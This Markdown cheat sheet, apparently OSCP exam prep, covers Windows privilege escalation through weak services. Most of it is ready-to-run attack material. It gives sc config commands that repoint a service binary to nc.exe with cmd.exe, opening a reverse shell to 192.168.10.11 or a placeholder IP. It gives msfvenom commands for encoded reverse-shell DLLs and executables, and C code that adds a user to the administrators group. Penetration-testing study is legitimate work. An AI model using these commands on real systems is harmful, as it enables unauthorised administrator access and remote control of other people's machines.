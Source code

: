 # Weak Services

## Abuse service via BinPath

Search for a services which are running under priviliaged account, then use the following command with accesschk.exe to verify if our current user has permission to modify its settings:

```
C:\> accesschk.exe -wuvc myservice
```

Look for the “SERVICE_CHANGE_CONFIG” in the response. Then use the following command to execute net user instend of service bin:

```
C:\> sc config myservice binpath= "C:\Inetpub\wwwroot\nc.exe 192.168.10.11 1234 -e C:\WINDOWS\System32\cmd.exe"
```

## Abuse service via Unquoted Paths

For more detailed technique: https://github.com/RootInj3c/OSCP-PwK/blob/master/Windows/Unquoted_Paths.md


## Abuse Upnp service (only for Windows XP SP1)

In Windows XP SP1 the upnp service is vulnerable to misconfigured permissions allow to esclate to Administrator. Run the following commands:

```
C:/> sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
C:/> sc config upnphost obj= ".\LocalSystem" password= ""
C:/> sc config upnphost depend= ""
C:/> sc qc upnphost
```

Restrat the service by reboot the machine to get Administrator shell.

## DLL Hijacking

If we found a program which try to load not found DLL libary we could use the following command to create our malicous DLL and put it instend:

```
root@kali:~/# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.11 LPORT=443 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f dll > malicous_dll.exe
```

*NOTE*: To detect vulnerable programm you'll need to use Process Monitor. Download from here: https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer?redirectedfrom=MSDN

## Appendix - Creating malicous services

### Manully using C

Using the following code:

```
#include <stdlib.h>
int main ()
{
    int i;
    i = system("net localgroup administrators theusername /add");
    return 0;
}
```

Compile it using Kali:

```
root@kali:~/# nano adduser.c
root@kali:~/# i686-w64-mingw32-gcc adduser.c -lws2_32 -o exp.exe
```

### Using Metasploit

Execute the following command to get pre-compiled malicous binary:

```
root@kali:~/# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.11 LPORT=443 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
```



